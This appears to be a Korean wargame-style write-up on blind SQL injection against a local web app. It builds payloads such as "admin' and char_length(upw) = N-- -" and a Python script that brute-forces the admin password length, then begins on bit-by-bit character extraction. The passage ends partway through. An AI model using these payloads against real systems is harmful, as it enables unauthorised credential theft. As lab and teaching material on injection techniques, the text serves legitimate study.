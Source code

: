 limit 을 통해 row 의 갯수를 지정하지 않을 경우 세 개의 row 가 반환되어 참 / 거짓을 구분할 수 있는 문장을 확인할 수 없습니다

## 익스플로잇
이제 admin 계정의 패스워드를 추출하기 위한 익스플로잇을 설계해 보겠습니다

### admin 패스워드 길이 찾기
먼저 Blind SQL Injection 을 진행하기 위해 admin 패스워드의 길이를 알아내야 합니다

### 각 문자 별 비트열 길이 찾기
패스워드의 각 문자가 한글인지 아스키코드인지 알 수 없기 때문에 이를 판단하기 위해서 각 문자를 비트열로 표현했을 때의 길이를 알아내야 합니다

### 각 문자 별 비트열 추출
패스워드 별 각 문자에 해당하는 비트열을 추출합니다
이때 아스키코드의 경우 최대 8번 한글의 경우 최대 24번의 요청으로 추출할 수 있습니다

### 비트열을 문자로 변환
추출할 비트열을 문자로 변환합니다
이 때 각 문자의 인코딩 utf-8 이였음을 감안해 변환해야 합니다

## admin 패스워드 길이 찾기
MySQL 에서 데이터의 길이를 알아내기 위해 length 함수를 사용합니다
length 함수는 문자열을 bytes 형태로 표현하였을 때의 길이를 반환하는 함수입니다

즉 인코딩에 관계없이 전체 문자열을 표현하는데에 사요되는 바이트의 수를 반환하기 때문에 만약 아스키코드로 문자열이 구성되어 있지 않다면 올바르지 않은 값을 반환할 수 있습니다

따라서 문자열 인코딩에 따른 정확한 길이를 계산하기 위해서는 char_length 함수를 사용해야 합니다

admin 패스워드의 길이를 찾기 위해 다음과 같은 형태로 쿼리를 작성할 수 있습니다
admin' and length(upw) = {length}-- -

Figure3 Find admin password length

```python
from requests import get
host = "http://localhost:5000"
password_length = 0
while True:
    password_length += 1
    query = f"admin' and char_length(upw) = {password_length}-- -"
    r = get(f"{host}/?uid={query}")
    if "exists" in r.text:
        break
print(f"password length: {password_length}")
```

## 각 문자 별 비트열 길이 찾기
패스워드의 각 문자가 한글인지 아스키코드인지 알 수 없기 때문에 비트열로 변환하여 추출하기 전에 각 비트열의 길이를 찾아야 합니다

admin 패스워드의 길이를 찾을 때와 동일한 방식으로 찾을 수 있으며 비트열을 모두 0 과 1 로 이루어져 있기 때문에 일반적인 length 함수를 사용하여도 무방합니다

각 문자 별 비트열 길이를 찾기 위해 다음과 같은 형태로 쿼리를 작성할 수 있습니다
admin' and length(bin(ord(substr(upw,{i},1)))) = {bit_length}-- -
